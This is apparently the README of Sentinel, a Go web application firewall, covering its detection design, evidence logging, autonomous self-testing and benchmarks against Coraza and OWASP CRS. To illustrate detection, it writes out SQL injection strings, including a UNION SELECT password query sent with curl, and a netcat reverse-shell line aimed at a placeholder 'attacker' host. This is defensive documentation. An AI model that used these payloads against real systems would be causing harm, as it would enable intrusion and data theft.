



# Sentinel WAF


I built Sentinel because my first WAF project didn't hold up when I looked at it honestly. It was mostly regexes, the "ML" part never actually ran, and I had no idea how good or bad it really was. So this time the rule was simple: every claim has to come with a number, and the number has to come from data I didn't write myself.

Sentinel is a reverse proxy written in Go that sits in front of a web app and blocks attacks before they reach it. Instead of matching keywords, it tokenizes input the way a database would. That is the difference between blocking `' OR 1=1--` and letting `O'Reilly and sons` through. To keep myself honest, I benchmarked it head to head against **OWASP Coraza + Core Rule Set v4**, the open-source WAF most people actually deploy, on the exact same requests.



**New here? Read [How it works](docs/HOW-IT-WORKS.md)** for a step-by-step walkthrough with diagrams and screenshots.

## Structural attacks: the parser-differential guard

Most WAF bypasses of the last two years leave the payload alone and change the request's *structure*. [WAFFLED](https://arxiv.org/abs/2503.10846) (ACSAC 2025) found 1,207 of them in AWS, Azure, Cloudflare, Google Cloud Armor and ModSecurity: the WAF parses the body one way, the web framework parses it another way, and the payload travels in the part only the application reads. CVE-2026-41508 (Coraza) and CVE-2026-21876 (OWASP CRS) are the same class.

Sentinel reads every body the way several parsers would ([`internal/parsediff`](internal/parsediff)):

- **Go's own parsers** (`mime/multipart`, `encoding/json`, `net/url`), so for a Go backend the WAF inspects exactly what the handler receives. A test checks this against `net/http` itself.
- **A strict RFC reading.**
- **The lenient behaviours other frameworks have**: LF-only multipart, parts after the closing delimiter, duplicate `name=` / `filename=` / `filename*`, two boundaries, duplicate JSON keys, case-variant keys (Go's `encoding/json` maps `ROLE` onto `Role`), comments and trailing commas in JSON, trailing JSON documents, `;` parameter separators, comma-joined duplicate parameters (HTTP parameter pollution), Content-Type/body mismatches and exotic charsets.

Every value from every reading is inspected. If the readings disagree in a way that changes what a backend receives, the request is scored (rule ids 7xxx), so it can be blocked even when no payload is recognised.

**Attack lab, run in CI on every push** ([`bench/compare/attacklab`](bench/compare/attacklab)). It fires 17 attacks at a real Go application three ways: directly, to prove whether the payload reaches the app; through Coraza + OWASP CRS v4.25 (PL1); and through Sentinel.

| | Payload reached the unprotected Go app | Coraza + CRS let through | Sentinel let through |
|---|---|---|---|
| 17 attacks (5 classic, 12 structural) | 12 | 2 (one of them live) | **0** |

The one live miss for CRS is a command injection inside a JSON body. Several structural tricks do not deliver to a Go app, because Go's parsers are strict there; they target frameworks that accept them, and the table says so per attack. The CI artifact `attacklab-evidence-pack` holds the full per-attack table, the hash-chained evidence, and the analyst's incident report.

## Evidence and the built-in analyst

Start the proxy with `-evidence evidence.jsonl` and every blocked or flagged request is preserved as evidence:

- the full request, with SHA-256 digests of the raw request and the body;
- the verdict and every finding.

Records are kept in an append-only **SHA-256 hash chain**. Editing, deleting or reordering any record breaks verification (`sentinel-report verify`). Cookie and Authorization values are stored only as digests.

The analyst turns that evidence into an incident report: at `/report` and per incident at `/incident?id=` on the admin port, or offline with `sentinel-report report -out report.html`. For each incident the report gives:

- the technique, with CWE, CAPEC and MITRE ATT&CK ids;
- how the attack works and what it would have done;
- exactly which field and value triggered which rule;
- why the score crossed the threshold;
- how to fix the application;
- the raw request, the hashes, and a reproduction command.



**Live demo:** `bash scripts/demo.sh` builds everything, sends real benign traffic and 11 attacks through the proxy, verifies the evidence and writes the report. See [docs/DEMO.md](docs/DEMO.md) for the 10-minute walkthrough.

## Autonomous evaluation engine

[`sentinel-autoeval`](cmd/sentinel-autoeval) attacks the WAF on its own and decides what to try next from the WAF's own responses. It works the way published WAF testers do (GoTestWAF's placement-by-encoding matrix, WAF-A-MoLE / AdvSQLi mutation search):

1. **Seeds**: 16 attacks across SQL injection, XSS, command injection and path traversal.
2. **Placements**: each seed goes into 11 positions. Five are classic: query, form, JSON, header, cookie. Six are structural (parser-differential).
3. **Adaptive search**: every attack the WAF blocks is kept and mutated with 10 evasion transformations (encodings, case, SQL comments, MySQL versioned comments, full-width Unicode, ...), generation after generation, until nothing caught is left to mutate.
4. **Backend oracle**: every request is also sent to a demo app that echoes what it parsed. A block only counts against an attack that actually reached an application parameter, and a "bypass" means the payload really got through.
5. **Auto-tuning**: detection and false positives are measured at paranoia levels 1-4, and the best point within a 0.5% false-positive budget is recommended.
6. **Evidence and report**: blocked attacks and any bypass go into the SHA-256 hash chain. The report renders to a PDF with screenshots and keeps a run history: the tuning loop.

**It found a real gap.** The first run against the v0.2 rules found 12 confirmed bypasses: reverse shells written as `nc attacker 4444 -e /bin/sh` (host and port before `-e`), plus case-swapped and comment-prefixed variants. Rule 3004 was rewritten from those findings and the four shapes were added to the regression corpus. The next run found nothing:

| Run | Attacks | Reached the app | Detection | Bypasses | False positives |
|---|---|---|---|---|---|
| 1 — rules at `ac9c05c` | 3,817 | 364 | 96.7% | 12 | 0% |
| 2 — after the fix | 3,817 | 364 | **100%** | **0** | 0% |

Inspection latency in that run: p50 45 µs, p99 236 µs. CI runs the engine on every push and **fails the build if it finds any bypass**.

**Full report (PDF, with screenshots):** [docs/Sentinel-WAF-Autonomous-Evaluation.pdf](docs/Sentinel-WAF-Autonomous-Evaluation.pdf)



```bash
go run ./cmd/sentinel-autoeval -out autoeval-out -label "my run"   # campaign + tuning + evidence + report.html
```

## Results

These are GitHub CI numbers on Linux, regenerated on every push. Download them from the `compare-results` and `gotestwaf-report` artifacts of any run.

**Third-party corpus vs OWASP Coraza + CRS v4.25.** Attacks come from [SecLists](https://github.com/danielmiessler/SecLists) (SQLi, XSS, LFI, commix command injection). Benign traffic is 37,728 lines: two full public-domain novels, 2,454 real browser User-Agents, 4,751 web paths and 10,735 names. Every payload is tested in the query string, form body, JSON body and a header, at paranoia level 1 with a block threshold of 5 for both WAFs. The sample is 400 per category.

| | Sentinel WAF | Coraza + OWASP CRS v4.25 |
|---|---|---|
| Command injection | **100.0%** | 43.1% |
| SQL injection | **76.1%** | 46.4% |
| Path traversal / LFI | 64.5% | **69.6%** |
| XSS | **98.6%** | 94.4% |
| **Detection, query + form + JSON** | **83.1%** | 71.1% |
| **False positives** | **0.0%** | 0.3% |
| Latency per request, mean / p99 | **46 µs / 193 µs** | 1.19 ms / 4.93 ms |

On the full unsampled set, Sentinel wrongly blocks **4 of 150,912** benign requests.

**Independent test: [GoTestWAF](https://github.com/wallarm/gotestwaf)** (Wallarm), run against the live proxy in CI:

| Attacks blocked | API attacks blocked | Normal requests passed | Overall |
|---|---|---|---|
| 46% | 57% | 97.9% | **64.5%** |

This is the weakest result, and I'm leaving it visible on purpose. GoTestWAF re-encodes payloads (Base64, JS Unicode) and sends them through gRPC, GraphQL and SOAP. It also found a real padding-bypass bug, which is now fixed with a regression test. The [known gaps](docs/HOW-IT-WORKS.md#5-known-gaps-the-honest-list) section lists what's next.

**Caveats:**
- At paranoia level 1, CRS deliberately does not inspect arbitrary custom headers, so the headline row excludes headers.
- CRS ships far more than injection rules (protocol enforcement, response inspection). Sentinel only inspects requests.
- Path traversal is the one category where CRS wins.

## How it works

```
client ─► Sentinel (reverse proxy) ─► upstream app
            │
            ├─ size limit, per-IP token bucket rate limit
            ├─ extract every input: path + segments, query, form, nested JSON,
            │   XML text/attributes, multipart fields + raw filenames, headers,
            │   cookies (lenient parser), parameter / JSON key names
            ├─ normalize: bounded multi-pass URL / %u / HTML entity / \x \u decoding,
            │   overlong UTF-8, Unicode confusables (∕ ʼ ＜), fullwidth folding,
            │   NUL stripping, whitespace canonicalization, SQL comment unwrapping
            ├─ analyse each value
            │   ├─ SQLi: tokenizer, evaluated in 3 contexts (raw / inside '…' / inside "…")
            │   ├─ XSS: tag, event-handler, attribute and JS-string break-out analysis
            │   ├─ command injection: separator scan + shell-word lookup
            │   ├─ traversal / LFI: dot-dot sequences, sensitive files, stream wrappers
            │   └─ rule file: JSON regex rules behind an Aho-Corasick literal prefilter
            ├─ anomaly score (CRS-compatible severities) ≥ threshold → 403
            └─ JSON logs, request IDs, Prometheus metrics, live dashboard
```

The SQLi engine tokenizes input instead of matching keywords. Injection means the token stream breaks out of its assumed context into SQL structure: a closing quote followed by a real condition, a comment terminator, `UNION SELECT`, a stacked statement, a tautology like `x=x`, or a time-delay function. That is why `O'Reilly and sons`, `select a plan from the list` and real novel prose such as `"And he is admirably suited for it"` pass, while `x' AND email IS NULL; --` and `/*!50000UNION*/ /*!50000SELECT*/` are blocked.

There are no external dependencies: the WAF uses only the Go standard library.

## Run it

```bash
go build -o bin/ ./cmd/...
./bin/target -listen 127.0.0.1:8000                       # demo upstream (simulates sinks, executes nothing)
./bin/waf -listen :8080 -upstream http://127.0.0.1:8000 -evidence evidence.jsonl   # dashboard on http://127.0.0.1:9090
./bin/trafficgen -url http://127.0.0.1:8080 -rps 20       # optional: live mixed traffic for the dashboard

curl "localhost:8080/search?q=1'%20UNION%20SELECT%20password%20FROM%20users--"   # 403
curl "localhost:8080/search?q=O'Reilly"                                          # 200
```

| Flag | Default | Description |
|---|---|---|
| `-monitor` | off | Shadow mode: log and score, never block. Use it to roll out safely. |
| `-threshold` | 5 | Anomaly score that blocks. One critical finding is enough. |
| `-paranoia` | 1 | 1–4. Higher enables noisier checks. |
| `-rules file.json` | embedded | Rule file, hot-reloaded on change. Invalid edits are rejected. |
| `-rate` / `-burst` | off | Per-IP rate limit. |
| `-max-body` | 1 MiB | Request body limit (413 above it). |
| `-log file` | stdout | Structured JSON logs. |
| `-evidence file.jsonl` | off | Hash-chained evidence of blocked and flagged requests; enables `/report`, `/incident`, `/verify`. |

Admin endpoints are on `-admin` (localhost only): `/` dashboard, `/stats` JSON, `/metrics` Prometheus, `/healthz`, plus `/report`, `/report.md`, `/incident?id=`, `/evidence` and `/verify` when evidence capture is on.

## Reproduce the numbers

```bash
go test -race ./...                                        # unit + corpus regression tests
go test -bench . -benchmem ./internal/waf/                 # engine benchmarks
go run ./cmd/eval -corpus eval/corpus                      # built-in corpus
bash scripts/fetch-external.sh                             # download third-party corpora
go run ./cmd/eval -corpus eval/external -misses misses.tsv # every miss / false positive listed
cd bench/compare && go run . -corpus ../../eval/external -max 400   # head-to-head vs Coraza + CRS
```

CI runs all of the above on every push. It also runs **[GoTestWAF](https://github.com/wallarm/gotestwaf)** (Wallarm's independent WAF test suite) against the live proxy, and publishes the report as a build artifact.

## Layout

```
cmd/waf            proxy binary            internal/detect      SQLi / XSS / cmdi / traversal analysers
cmd/target         safe demo upstream      internal/normalize   decoding + canonicalization
cmd/eval           detection / FP harness  internal/waf         input extraction, rules, scoring engine
bench/compare      vs Coraza + CRS         internal/ahocorasick multi-pattern prefilter (DFA)
eval/corpus        regression corpus       internal/server      proxy, rate limit, metrics, dashboard
cmd/sentinel-report verify / report     internal/parsediff   multi-parser body readings + disagreements
bench/compare/attacklab live campaign   internal/evidence    SHA-256 hash-chained evidence vault
scripts/demo.sh    one-command live demo   internal/analyst     technique knowledge base + incident reports
cmd/sentinel-autoeval autonomous eval   internal/redteam     adaptive attack search, oracle, tuning, report
                                        internal/testapp     demo backend that echoes what it parsed
```

Project docs: [threat model](docs/THREAT_MODEL.md) · [security policy](SECURITY.md) · [changelog](CHANGELOG.md) · [demo script](docs/DEMO.md).

## Limitations and next steps

- Response inspection and outbound data-leak detection are not implemented.
- The parser-differential guard models Go exactly and other frameworks' *known* lenient behaviours. The next step is a per-framework differential harness (Flask, Express, Spring, Laravel as CI services) that measures each framework's parse of the WAFFLED grammars, so per-backend profiles are measured rather than modelled.
- Path traversal (64.5%, the one category where CRS wins) needs work. The next step is a path canonicalizer that resolves `..` sequences against a virtual root.
- The ML stage from the original plan is not built yet: a character n-gram model trained on CSIC 2010, evaluated with a source-disjoint split.
- GoTestWAF coverage: NoSQL, mail-header injection, Base64-encoded payloads, GraphQL and gRPC bodies.

## License

MIT
